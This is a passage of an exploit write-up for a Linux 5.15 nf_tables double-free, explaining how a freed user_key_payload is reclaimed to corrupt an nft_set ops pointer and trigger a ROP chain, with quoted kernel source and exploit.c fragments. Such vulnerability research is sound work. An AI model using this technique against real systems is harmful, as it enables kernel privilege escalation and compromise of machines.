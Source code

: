Recall that the `struct nft_set` objects contain `ops` fields, which is the vtable pointer and can be used for RIP control. The exploit overwrites `struct nft_set` object to corrupt `ops` fields, by freeing the overlapping `struct user_key_payload` object and reclaiming again with the same objects containing the proper payload.

- [security/keys/user_defined.c:user_revoke()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n128)
```c
void user_revoke(struct key *key)
{
	struct user_key_payload *upayload = user_key_payload_locked(key);

	/* clear the quota */
	key_payload_reserve(key, 0);

	if (upayload) {
		rcu_assign_keypointer(key, NULL);
		call_rcu(&upayload->rcu, user_free_payload_rcu); // [2]
	}
}
```
Note that the `struct user_key_payload` objects are freed by RCU [2], so we need to wait several CPU cycles to ensure the chunks are actually freed [1].

- [exploit/extra-refined/exploit.c#L1205](../exploit/extra-refined/exploit.c#L1205)
```c
// reclaim to overwrite should be done
// now populate the kmalloc-1k cache to avoid
// touching corrupted freelist
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	if (keyctl(KEYCTL_REVOKE, keys[i], 0, 0, 0) < 0)
		perror("keyctl");
}
sleep(1); // key is released by rcu, let's wait for a while...
```
Again, the percpu freelist of `kmalloc-1k` cache is corrupted due to the reclamation of double-freed chunks. To prevent the kernel crashing, the exploit populates the `kmalloc-1k` caches by releasing the `struct user_key_payload` objects which are allocated in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).

- [exploit/extra-refined/exploit.c#L1215](../exploit/extra-refined/exploit.c#L1215)
```c
// delete nft_set to trigger ROP chian!
// notice that this ROP chain is run on worker context
release_reclaim_set(nl, RECLAIM_SET_NAME);
```

- [net/netfilter/nf_tables_api.c:nft_commit_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n8434)
```c
static void nft_commit_release(struct nft_trans *trans)
{
// ...
	case NFT_MSG_DELSET:
		nft_set_destroy(&trans->ctx, nft_trans_set(trans));
		break;
// ...
```
